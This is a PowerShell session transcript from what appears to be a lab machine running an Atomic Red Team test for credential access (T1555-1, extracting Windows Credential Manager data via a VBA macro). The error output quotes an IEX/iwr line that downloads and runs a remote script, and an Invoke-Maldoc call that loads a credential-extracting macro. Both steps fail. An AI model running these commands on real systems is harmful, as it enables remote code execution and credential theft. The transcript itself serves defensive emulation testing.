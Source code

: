 # T1555

**********************
Windows PowerShell transcript start
Start time: 20210602163054
Username: DESKTOP-5BHJDMU\student
RunAs User: DESKTOP-5BHJDMU\student
Configuration Name: 
Machine: DESKTOP-5BHJDMU (Microsoft Windows NT 10.0.19042.0)
Host Application: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process ID: 5224
PSVersion: 5.1.19041.906
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.19041.906
BuildVersion: 10.0.19041.906
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\Users\student\Desktop\T1555.md
PS C:\Users\student> Write-Host "# T1555"

PS C:\Users\student> Write-Host "## Test 1"

## Test 1
PS C:\Users\student> get-date

Wednesday, June 2, 2021 4:31:37 PM


PS C:\Users\student> Invoke-AtomicTest T1555 -TestNumbers 1
PathToAtomicsFolder = C:\Tools\atomics
Executing test:
T1555-1 Extract Windows Credential Manager via VBA

Done executing test:
T1555-1 Extract Windows Credential Manager via VBA

iwr : The remote name could not be resolved: 'raw.githubusercontent.com'
At line:1 char:9
+ & {IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-ato ...
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebExc
   eption
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

Invoke-Maldoc : The term 'Invoke-Maldoc' is not recognized as the name of a cmdlet, function, script file, or operable
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:2 char:1
+ Invoke-Maldoc -macroFile "C:\Tools\atomics\T1555\src\T1555-macrocode. ...
+ ~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Invoke-Maldoc:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

PS C:\Users\student> Stop-Transcript
**********************
Windows PowerShell transcript end
End time: 20210602163229
**********************
